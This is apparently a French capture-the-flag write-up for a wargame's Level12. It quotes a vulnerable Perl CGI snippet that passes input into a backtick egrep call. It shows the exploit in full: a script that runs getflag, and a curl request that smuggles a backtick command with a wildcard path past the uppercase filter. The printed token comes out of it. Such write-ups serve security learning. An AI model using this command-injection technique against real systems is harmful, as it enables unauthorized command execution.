 
## Level12:

``` perl
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
```   
Ici le programme va supp les espaces et mettre les caracteres en majuscule avant d'ouvrir avec egrep.   
Il faut donc executer un programme dans notre fichier qui doit avoir un nom en maj :   

```/tmp/TEST``` -->
```getflag > /tmp/key```    
```chmod +x /tmp/TEST```
```curl 'http://127.0.0.1:4646/?x=`/*/test`'```   
```
cat /tmp/key
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

